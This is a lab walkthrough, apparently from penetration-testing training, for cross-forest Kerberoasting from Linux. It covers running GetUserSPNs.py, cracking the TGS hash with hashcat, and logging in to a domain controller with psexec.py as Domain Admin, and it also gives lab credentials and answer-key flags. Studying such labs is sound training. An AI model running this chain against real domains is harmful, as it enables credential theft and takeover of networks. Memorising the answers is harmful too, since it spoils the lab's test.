




<div align='center'>

# **Lab 25: Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux** 

</div>

Known Information:

- Cresential: wley:transporter@4
- IP Address of the Domain Controller `FREIGHTLOGISTICS.LOCAL`: 172.16.5.238

## **Cross-Forest Kerberoasting**

**Using GetUserSPNs.py**

```zsh
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley -outputfile hash_tgt
```



We get the [hash](../docs/sapsso_TGSTicket.txt) for the `sapsso` account.

**Cracking the Hash with Hashcat**

```zsh
hashcat -m 13100 sapsso_TGSTicket.txt /usr/share/wordlists/rockyou.txt --force
```



We get the password for the `sapsso` account: `pabloPICASSO`

**Question**:  Kerberoast across the forest trust from the Linux attack host. Submit the name of another account with an SPN aside from MSSQLsvc.
- **Answer**: sapsso

**Question**: Crack the TGS and submit the cleartext password as your answer.
- **Answer**: pabloPICASSO

**Question**: Log in to the ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL Domain Controller using the Domain Admin account password submitted for question #2 and submit the contents of the flag.txt file on the Administrator desktop.

```zsh
psexec.py FREIGHTLOGISTICS.LOCAL/sapsso@academy-ea-dc03.inlanefreight.local -target-ip 172.16.5.238
```

Password: pabloPICASSO

```powershell
type C:\Users\Administrator\Desktop\flag.txt
```



- **Answer**: burn1ng_d0wn_th3_f0rest!

